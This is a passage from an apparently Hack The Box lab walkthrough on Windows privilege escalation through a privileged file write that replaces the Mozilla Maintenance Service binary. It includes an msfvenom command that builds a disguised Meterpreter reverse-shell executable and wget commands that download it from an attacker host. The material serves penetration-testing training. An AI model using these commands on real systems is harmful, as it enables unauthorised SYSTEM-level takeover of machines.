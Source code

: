 **Note**: We can use the exploit to create a file of our choosing in a protected folder such as C:\\Windows\\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

##### Checking Permissions on Binary

`icacls` confirms that we only have read and execute permissions on this binary based on the line `BUILTIN\Users:(I)(RX)` in the command output.


``` batch
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe 
NT AUTHORITY\SYSTEM:(I)(F)                                                         BUILTIN\Administrators:(I)(F)                                                      BUILTIN\Users:(I)(RX)                                                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

##### Generating Malicious Binary

Let's generate a malicious `maintenanceservice.exe` binary that can be used to obtain a Meterpreter reverse shell connection from our target.

```shell-session
PrinceAli1@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

##### Downloading the Malicious Binary

**For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.**

We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.

```powershell
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

##### Running the Exploit
